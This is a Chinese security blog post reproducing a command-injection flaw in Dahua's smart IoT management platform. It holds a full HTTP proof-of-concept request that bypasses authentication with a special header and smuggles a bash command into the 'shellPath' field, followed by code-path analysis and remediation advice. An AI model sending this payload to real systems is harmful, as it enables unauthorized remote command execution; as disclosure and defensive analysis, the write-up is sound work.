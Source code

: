 > **原文链接**: https://mp.weixin.qq.com/s?__biz=MzkyNTYxNDAwNQ==&mid=2247484960&idx=1&sn=ad43cab8df06b479660c3c71137eb642

#  【漏洞复现】大华智能物联网综合管理平台 receive 命令执行漏洞  
原创 PokerSec  PokerSec   2025-07-22 01:01  
  
> 目前该漏洞互联网上资产基本都已修复，官方应该是做了热补丁，本文只做记录分析学习。  
  
  
****  
**先关注，不迷路.**  
## 免责声明  
  
       请勿利用文章内的相关技术从事非法测试，由于传播、利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，所产生的一切不良后果与文章作者无关。该文章仅供学习用途使用。  
## 漏洞介绍  
  
大华智能物联综合管理平台，作为浙江大华技术股份有限公司推出的一款集成了多项业务管理功能的平台软件，该平台主要面向智能园区、商业综合体等多种应用场景，旨在提供一个全面、高效的解决方案，为客户提供一套集成、高效、开放、灵活可扩展、可定制的平台软件产品。功能全面、灵活可扩展、安全可靠的智能物联基础软件平台，能够满足企业在不同场景下的各种业务需求，助力企业实现数智化转型升级。大华智能物联综合管理平台receive和push接口存在命令执行漏洞，攻击者可利用该漏洞获取系统权限。  
## 漏洞复现  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpDzIUQictcTUullPOcNfKv7fe4MI3VCytmWyI29ziaMUIdawtWaZOug9w/640?wx_fmt=png&from=appmsg "")  
  
POC:  
  
(这微信页面直接复制代码格式会乱，可以浏览器打开复制)  

```
POST /evo-runs/v1.0/receive
POST /evo-runs/v1.0/push
```


```
POST /evo-runs/v1.0/receive HTTP/1.1
Host: xxxx
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:132.0) Gecko/20100101 Firefox/132.0
Connection: close
Content-Length: 258
Content-Type: application/json
X-Subject-Headerflag: ADAPT
Accept-Encoding: gzip, deflate

{
 &#34;method&#34;: &#34;agent.ossm.mapping.config&#34;,
 &#34;info&#34;: {
  &#34;configure&#34;: &#34;abcd&#34;,
  &#34;filePath&#34;: &#34;haha&#34;,
  &#34;paramMap&#34;: {
   &#34;shellPath&#34;: &#34;/bin/bash -c id>/opt/evoWpms/static/xxx.txt&#34;,
   &#34;filePath&#34;: &#34;abc&#34;
  },
  &#34;requestIp&#34;: &#34;&#34;
}
```

  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpzu0YQZZiajTAvlzLPxjYjibbA3SEyKGPF3bacIkM8BZp39tvBpOGwPhQ/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicptcULh9iclUKm26iar4fNlnWyeJcJSwWIWIbibY5Xnxz9SyhFeb1s6ibgIw/640?wx_fmt=png&from=appmsg "")  
## 漏洞分析  
  
com/dahua/evo/runs/filter/AuthFilter.java中  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpZU1MzX5YMN4j0R7qkuQ744303nmA30FpWW9gxSSumm4QyyeHK80KVw/640?wx_fmt=png&from=appmsg "")  
  
直接查看doFilter 方法，根据代码备注，可以发现如果header中包含X-Subject-HeaderFlag 为ADAPT 则不鉴权（刚开始还以为是adapt poc标记呢），如果方法在set中，则不进行鉴权  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpGLjyBZEAk3tFnnicrpGqRAllXzpscibV49RXFlQDZ4hPR7XHMh1ebQcQ/640?wx_fmt=png&from=appmsg "")  
  
看看放行方法怎么设置的，是从配置文件读取的，根据鉴权，如果在这里面的方法是可以直接调的，不在的就需要鉴权，但又可以header中包含X-Subject-HeaderFlag : ADAPT 进行绕过  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpXwhjCgWHia0msX2yARbx8e2c4O3rtwiaibibolf092vKBzcnM7peBvyHCA/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpq8wWr2WFI8WQ17Xhl1T4jlFDSOUlcHAAjLo3icyOsZhE22qn4rvcvYw/640?wx_fmt=png&from=appmsg "")  
  
跟进路由  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpoojTwaUQaVoJ1RribCchLbWFn1lp5icibj45vWIpyiaCSewpbTqdUW2FSg/640?wx_fmt=png&from=appmsg "")  
  
解析请求体（
```
@RequestBody
```

  
）为 
```
AgentMsgParam
```

  
 对象  
  
调用业务服务 
```
msgDealService.msgDeal()
```

  
 处理消息  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicplZtsG7Sa6K3pbibV07ibzO9aGJ0QicQRAKMHgfE0XYpwTL8OThRWr2qcw/640?wx_fmt=png&from=appmsg "")  
  
设置为本次漏洞可利用的方法  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicpCQj2mlsHXib4z61kuVGRe2GbttdaiaZ4oFpFNviaiaBic8HACcmICMO0ydg/640?wx_fmt=png&from=appmsg "")  
  
跟进去就是runtime 执行系统命令  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/Ej4eNleprJJ7YXXKosbOTFUro8gz7eicp8MDp8muhDib0hljnrHDVlA1bPYVzfnJotHYNibFB0GLfibR5JicIv7ic4Fw/640?wx_fmt=png&from=appmsg "")  
## 修复意见  
  
1.关闭互联网暴露面或接口设置访问权限  
  
2.联系官方获取补丁信息：https://www.dahuatech.com/  
  
  
  
如有侵权，请及时联系删除。  
  
